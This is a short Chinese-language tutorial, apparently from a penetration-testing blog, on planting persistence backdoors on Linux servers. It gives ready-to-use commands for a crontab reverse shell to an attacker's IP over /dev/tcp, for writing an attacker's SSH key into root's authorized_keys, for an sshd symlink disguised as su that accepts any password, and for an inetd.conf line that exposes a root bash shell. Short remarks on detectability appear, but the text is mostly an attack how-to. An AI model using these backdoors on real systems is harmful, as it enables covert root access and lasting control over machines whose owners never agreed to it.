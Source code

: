 ## linux后门

* 计划任务后门(crontab后门)

>crontab命令介绍
>![](https://storage.tttang.com/media/attachment/2022/10/29/c4aaefea-6fc3-436f-b6fa-4773a2e3d455.png)
>* crontab命令用来管理用户需要周期执行的任务。等于windows计划任务。crond进程每分钟会定期检查是否有要执行的任务，如果有则自动执行
> 通常在计划任务中添加后门，或者替换服务进程，以及反弹shell
>
>* 反弹shell
>
>>1. 攻击机监听`nc -lvvp 本地端口号`、
>>2. 目标机中设置计划任务`crontab -e` 
>>    下列代码表示每分钟反弹一次shell到攻击机
>>    `*/1 * * * * bash -i >& /dev/tcp/攻击机外网ip/攻击机端口 0>&1`

* ssh公钥免密(常用)
  将客户端生成的ssh公钥写道目标服务器的 ~/.ssh/authorized_keys中，之后客户端利用私钥完成认证即可登录。该后门易被发现

>制作过程
>
>>1. 在攻击机上生成公钥私钥对
>>    `ssh-keygen -t rsa`
>
>>>在中途会让输入密钥对密码，如果需要免密登录则回车跳过
>
>>2. 将攻击机.ssh目录下的id_rsa.pub复制到目标服务器的`/root/.ssh/authorized_key`文件里
>>    `scp ~/.ssh/id_rsa.pub root@目标服务器IP地址:/root/.ssh/authorized_keys`
>>    ![](https://storage.tttang.com/media/attachment/2022/10/29/e20a4428-9299-4617-9f82-0bf3d3848656.png)
>>3. 在目标服务器中，将authorized_keys权限改为600
>>    `chmod 600 /root/.ssh/authorized.keys`
>>4. 尝试免密登录

详情请见ssh登录详解

* ssh软连接后门
  非常经典的后门，直接对sshd建立软连接，之后就能用任意密码登录

>软连接后门的原理是利用了**PAM配置**文件的作用，将sshd文件软连接名称设置为su，这样应用在**启动**过程中会去PAM配置文件夹中寻找是否存在对应名称的配置信息，su在pam_rootok检测uid 0即认证成功，也可以使用/**etc/pam.d中存在**的其他软连接名字

特点：1. 隐蔽性弱，rookit hunter这类防护脚本可以轻松扫到

2. 本地查看端口会暴露
3. 能绕过一些流量监控

>制作过程
>
>>1. 创建软连接 `ln -sf /usr/sbin/sshd /tmp/su`
>>2. 设置监听端口。因为本地查看端口容易暴露，建议设置8080，8081伪装 `/tmp/su -o Port=8080`
>>    运行/tmp/su就等于运行/usr/sbin/sshd,连不上可以nmap扫一下,有防火墙连不上

* inetd/xinetd后门(很老很老)
  监听外部网络请求(socket)的系统守护进程
  **具体工作过程**：当inetd收到一个外部请求后，会到配置文件中找到实际处理它的程序，在把socket交给那个程序处理

>inetd后门制作
>
>>1. 向/etc/inetd.conf文件中加入一行:`daytime stream tcp nowait root /bin/bash bash -i`
>>2. 开启inet后用nc连接:`nc -lvvp 目标ip 13`

还有prism后门等在服务器安装软件的，极易被发现
